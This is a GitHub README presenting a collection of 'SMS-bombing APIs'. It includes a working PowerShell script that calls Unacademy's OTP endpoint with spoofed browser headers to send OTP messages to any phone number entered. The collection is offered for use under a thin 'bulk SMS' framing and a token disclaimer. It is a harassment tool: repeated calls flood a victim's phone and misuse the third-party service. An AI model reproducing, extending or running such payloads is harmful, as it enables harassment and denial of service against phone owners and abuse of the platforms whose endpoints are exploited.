 # Bombing-Api Collection 🚀
A meticulously curated and continuously updated repository of **SMS-bombing APIs** designed for developers to access various services for sending bulk SMS. Explore the collection below and stay tuned for exciting new additions coming soon! 

## Unacademy SMS API
This API allows sending OTP requests to phone numbers via the Unacademy platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://unacademy.com/api/v3/user/user_check/?enable-email=true"
$body = @{
    phone        = "<PHONE_NUMBER>"
    country_code = "IN"
    otp_type     = 1
    email        = ""
    send_otp     = $true
    is_un_teach_user = $false
} | ConvertTo-Json

$headers = @{
    "Origin"     = "https://unacademy.com"
    "Referer"    = "https://unacademy.com/"
    "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    "X-Platform" = "0"
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

## What's Next?
- More APIs will be added soon to expand your options for bulk SMS services.
- Stay updated for enhanced documentation and additional examples.

*Note*: Use these APIs responsibly and in compliance with applicable laws and terms of service.
